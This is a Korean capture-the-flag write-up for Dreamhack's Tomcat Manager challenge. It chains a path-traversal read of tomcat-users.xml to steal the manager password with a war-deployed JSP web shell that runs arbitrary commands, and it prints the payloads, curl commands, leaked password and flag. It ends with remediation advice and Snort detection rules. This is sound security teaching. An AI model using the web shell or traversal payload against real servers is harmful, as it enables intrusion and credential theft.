








# [Dreamhack CTF] Tomcat Manager - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack CTF - Tomcat Manager](https://dreamhack.io/wargame/challenges/248)

* **분야:** Web

* **목표:** LFI(Path Traversal)를 통한 Tomcat Manager 평문 자격증명 탈취와 war 배포 RCE를 결합해 실행 전용 권한(`---x--x--x`)의 flag 바이너리를 직접 실행, flag 획득

## 2. 취약점 분석
제공된 소스 분석 결과, `image.jsp`의 파일 응답 로직에 경로 검증이 전혀 없는 점과 `Dockerfile`이 `tomcat-users.xml`을 치환·주입 없이 그대로 복사하는 점이 결합되어 관리자 자격증명 평문 탈취로 이어지는 구조로 확인.

`index.jsp`가 `image.jsp`를 `file` 파라미터로 호출하는 구조로 확인, 이 파라미터가 공격 표면으로 판단.

```jsp
<!-- [index.jsp] image.jsp를 file 파라미터로 호출하는 진입점 -->

```

`image.jsp`가 `file` 파라미터를 검증 없이 파일 경로에 그대로 연결해 응답하는 구조로 확인, Path Traversal(LFI)이 가능함을 판단.

```jsp
// [image.jsp] file 파라미터 검증 없이 파일 경로에 그대로 연결
String filepath = getServletContext().getRealPath("resources") + "/";
String _file = request.getParameter("file");
...
java.io.FileInputStream fileInputStream = new java.io.FileInputStream(filepath + _file);
```

`Dockerfile`이 `tomcat-users.xml`을 별도의 치환·시크릿 주입 로직 없이 그대로 이미지에 복사하는 구조로 확인, 즉 빌드에 사용된 원본 파일에는 평문 비밀번호가 그대로 담겨 있음을 판단.

```dockerfile
# [Dockerfile] tomcat-users.xml을 치환 없이 그대로 복사
COPY tomcat-users.xml /usr/local/tomcat/conf/tomcat-users.xml
```

해당 계정이 Manager 앱 전 권한(`manager-gui`, `manager-script` 등)을 보유한 단일 계정 구조로 확인.

```xml
<!-- [tomcat-users.xml] manager 전 권한을 가진 단일 계정 -->
<user username="tomcat" password="[**REDACTED**]" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
```

* **분석 결론:** `image.jsp`의 LFI로 `tomcat-users.xml` 원본을 읽으면 평문 비밀번호 확보가 가능하고, 해당 계정이 Manager 전 권한을 보유하고 있어 war 배포를 통한 RCE까지 단일 체인으로 연결됨을 종합 확인.

## 3. 공격 수행

1. `image.jsp`의 LFI로 원본 `tomcat-users.xml` 요청, 평문 비밀번호 확보.

```bash
# Payload - LFI로 tomcat-users.xml 원본 요청
http://host3.dreamhack.games:9775/image.jsp?file=../../../../../../usr/local/tomcat/conf/tomcat-users.xml
```



2. 확보한 계정으로 Tomcat Manager GUI(`/manager/html`) 접속 시도, Connection reset 지속 발생.



3. GUI 대신 텍스트 기반 Manager API(`/manager/text/list`)로 재시도, Basic Auth 로그인 창에 확보한 계정 입력.



4. 인증 성공, 배포된 애플리케이션 목록 확인 및 manager-script 권한 동작 검증.



5. 명령 실행 가능한 JSP 웹쉘 작성 후 war로 패키징, `/manager/text/deploy` API로 업로드해 배포.

```jsp
// Payload - shell.jsp 웹쉘
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) {
        out.println(line);
    }
}
%>
```

```bash
# Payload - war 배포 요청
curl -u tomcat:P2assw0rd_4_t0mC2tM2nag3r31337 -T shell.war \
  "http://host3.dreamhack.games:9775/manager/text/deploy?path=/shell&update=true"
```



6. 배포된 웹쉘로 명령 실행, uid 확인을 통한 RCE 성사 검증.

```bash
curl "http://host3.dreamhack.games:9775/shell/shell.jsp?cmd=id"
```



7. `/flag` 파일 권한 확인, 실행 권한만 부여되고 읽기 권한은 없는 구조 확인.

```bash
curl "http://host3.dreamhack.games:9775/shell/shell.jsp?cmd=ls+-la+/flag"
```



8. 읽기 대신 직접 실행하는 방식으로 전환, `/flag` 바이너리를 실행해 flag 획득.

```bash
curl "http://host3.dreamhack.games:9775/shell/shell.jsp?cmd=/flag"
```



## 4. 획득 결과

LFI로 탈취한 Tomcat Manager 평문 자격증명을 이용해 웹쉘 war를 배포, 획득한 RCE로 실행 전용 권한(`---x--x--x`)인 `/flag` 바이너리를 직접 실행해 flag 획득.

* **FLAG:** `DH{a2062e589d0b1d627cf999066fb6c335ffe89ab85e81d7b7d91dd64e8f59d505}`

## 5. 대응 방안

LFI로 인한 자격증명 노출과 Manager 앱의 과도한 권한 부여가 결합되어 발생한 취약점이므로, 시큐어 코딩 관점에서 각 지점별 개별 수정 필요.

* **파일 경로 검증:** `image.jsp`의 `file` 파라미터를 화이트리스트 또는 `Canonical Path` 비교 방식으로 검증, `resources` 디렉토리 하위 경로 이탈을 원천 차단.

* **자격증명 관리 분리:** `tomcat-users.xml`의 비밀번호를 이미지 빌드 시 하드코딩하지 않고, 빌드 인자나 외부 시크릿 매니저를 통해 런타임에 주입.

* **Manager 앱 접근 제어:** 운영 환경에서 `manager` 앱을 비활성화하거나, `RemoteAddrValve` 등으로 접근 가능 IP를 신뢰 구간으로 제한.

* **계정 권한 최소화:** 단일 계정에 `manager-gui`, `manager-script`, `admin-script` 등 전 권한을 부여하지 않고, 용도별 계정과 최소 권한(Role)으로 분리.

* **파일 권한 점검:** `COPY` 시점과 `USER` 전환 시점의 소유권/권한 불일치를 사전에 점검, 배포 대상 파일의 권한을 명시적으로 재설정.

## 6. 블루팀 관점 요약

보안관제 및 침해사고 대응(IR) 관점에서, LFI를 통한 자격증명 탈취 및 Manager war 배포를 통한 RCE 행위 탐지.

* **WAF 및 웹 서버 로그 분석:** `GET /image.jsp` 요청의 `file` 파라미터에 `../` 반복 패턴이 포함된 요청 식별, 동시에 `PUT /manager/text/deploy` 또는 `POST /manager/html/upload` 요청 패턴 식별.

* **침해사고 대응(IR) 시나리오:** 동일 클라이언트 IP에서 `file=` 파라미터에 `../`가 포함된 LFI 시도 직후, 짧은 시간 내 `/manager` 경로에 대한 Basic Auth 인증 성공과 war 파일 업로드가 연속 관측되면 자격증명 탈취 후 RCE 시도로 판단.

* **네트워크 기반 탐지 룰 제안 (Snort 3):**

  - `image.jsp`의 `file` 파라미터에 경로 순회 패턴이 포함된 요청 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] Path Traversal Attempt via file Parameter"; flow:to_server,established; http_uri; content:"file="; content:"../"; distance:0; sid:1000011; rev:1;)`

  - Tomcat Manager war 배포 시도 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] Tomcat Manager WAR Deploy Attempt"; flow:to_server,established; http_uri; content:"/manager/text/deploy"; sid:1000012; rev:1;)`